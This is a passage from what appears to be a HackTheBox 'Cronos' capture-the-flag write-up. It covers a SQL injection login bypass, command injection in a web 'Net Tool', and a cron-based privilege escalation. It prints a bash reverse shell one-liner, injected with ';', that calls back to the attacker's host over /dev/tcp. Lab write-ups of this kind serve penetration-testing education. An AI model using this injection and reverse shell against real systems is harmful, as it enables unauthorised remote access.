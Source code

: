 If you're wondering why I did that? Or what even made me believe that the SQL injection would work? The answer is quite simple, I don't. The credentials could have been hardcoded, or anything else. The reason why I tried this is because of the sole reason that this is a login portal. Quite often login portal would be using some sort of database system to store users data, and since this portal was using PHP, I decided to give it a try.

![Logged in](/HackTheBox/htb-cronos/9_logged_in.png)

### Remote Code Execution

Let's check the page source of this page too, before messing around with the custom "Net Tool v0.1"

![Page Source](/HackTheBox/htb-cronos/10_page_source.png)

Seems like there's some potential for code injection. Let's test it.

![RCE Test](/HackTheBox/htb-cronos/10_test.png)

There's no protection against stacking commands using `;` and we definitely have an RCE on this custom tool, let's do what we do best - exploit it.

### Getting A Shell

Using the bash one-liner reverse shell to get a shell. I like to stick to port 443 because the reverse shell will not get killed or dropped by the target systems' firewall.

Command:
``` bash
; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.19/443 0>&1"
```
![Sending Evil Payload](/HackTheBox/htb-cronos/11_getting_a_shell.png)

Catching the reverse shell from our listener

![Getting A Shell](/HackTheBox/htb-cronos/12_shell.png)

We can read user.txt as `www-data` but let's do that later

![user.txt Is Readable](/HackTheBox/htb-cronos/12_user_later.png)

## Privilege Escalation

I transferred LinEnum.sh to the target machine and executed it, found an interesting cron job

![Laravel Artisan Cron Job](/HackTheBox/htb-cronos/17_found_cron.png)

If you wanted to find this manually you could do that by this command - `cat /etc/cron*`

![Find Cron Manually](/HackTheBox/htb-cronos/17_cron_manual.png)

Upon finding a cron job, it is essential to check when it will run. This is to avoid any rabbit holes, it's great to find a root owned cron job, but no use if it runs monthly or quarterly.

![Find Cron Manually](/HackTheBox/htb-cronos/17_understanding_cron.png)
